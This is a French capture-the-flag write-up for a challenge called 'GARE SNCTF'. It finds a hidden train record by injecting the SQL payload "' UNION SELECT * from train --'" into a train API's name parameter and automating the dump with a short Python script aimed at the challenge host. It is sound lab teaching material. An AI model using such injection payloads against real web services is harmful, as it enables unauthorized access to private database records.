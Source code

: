 # GARE SNCTF - Writeup


**LORE :** Ah, tu as trouvé toutes les informations sur le train ? Maintenant, il te reste juste à mettre tout ça en lien et à trouver le bon train sur leur site. Et bientôt, tu seras riche avec tout cet OR.

Format flag: SNCTF{ }


![alt text](image.png)


On recharchant tout les info qu'on a sur le train soit. Et on sait qu'on cherche de l'OR

```
track 2B
wagon C4
date 2024-09-16
hour 2:00
freight OR
```

Après chercher les infos des trains on voit vite qu'on ne trouve aucun train valide

Le train le plus proche
![alt text](image-1.png)
Mais l'heure est pas valide

En trouvant l'api endpoint `/api/train?nam` et une injection SQL
`' UNION SELECT * from train --'` on découvre qu'il y a des trains privés et nom privés

![alt text](image-2.png)

Du coup à partir de la on peut utiliser l'api pour trouver le bon train

```py
import requests

URL = "http://samuel-lab.freeboxos.fr:11000/api/train?name=%27%20UNION%20SELECT%20*%20from%20train%20--%27"

response = requests.get(URL)
data = response.json()

for train in data:
    if train['track'] == '2B' and train['wagon'] == 'C4' and train['date'] == '2024-09-16' and train['hour'] == '2:00' and train['freight'] == 'OR':
        print(train)

print(f"Flag: SNCTF{{{train['uuid']}}}")
```

Il y a bien sur plusieurs moyens de trouver le bon train. Avec une full reques sql.